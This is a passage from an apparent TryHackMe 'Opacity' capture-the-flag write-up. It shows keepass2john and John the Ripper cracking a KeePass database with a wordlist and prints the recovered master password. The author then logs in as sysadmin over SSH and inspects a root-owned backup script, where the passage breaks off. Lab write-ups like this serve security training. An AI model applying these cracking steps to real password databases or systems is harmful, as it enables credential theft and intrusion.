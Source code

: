 A KeePass database. KeePass is an open-source password manager. It requires a key to read the database. I looked for ways to do this.

We have to use `keepass2john` to convert the database to be JTR readable, and then we can use JTR to brute force the passwords.

So I copied the kdbx file to my machine and then did the above.

```
┌──(kali㉿kali)-[~/Desktop/THM/Opacity]
└─$ keepass2john dataset.kdbx > dataset.hash


┌──(kali㉿kali)-[~/Desktop/THM/Opacity]
└─$ john dataset.hash --wordlist=/usr/share/wordlists/rockyou.txt    
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)     
1g 0:00:00:17 DONE (2024-08-23 17:41) 0.05707g/s 50.22p/s 50.22c/s 50.22C/s chichi..david1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We get the password for the database. I was unable to figure out how to open the database file. But it was simple. Only to use keepass2 <database_file> to open the file. I didn't have keepass2 installed, so i first installed it using `sudo apt-get install keepass2`.

<img src=https://github.com/user-attachments/assets/77d8a9ef-c271-4975-833f-cb4cb2a9c9b8>

The password can be copied to the clipboard.

Then, I connected to the sysadmin user using SSH.

Under the scripts directory: 
```
sysadmin@opacity:~/scripts$ ls -la
total 16
drwxr-xr-x 3 root     root     4096 Jul  8  2022 .
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22  2023 ..
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

The content of the script.php file is as:
```
sysadmin@opacity:~/scripts$ cat script.php 
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
...
```
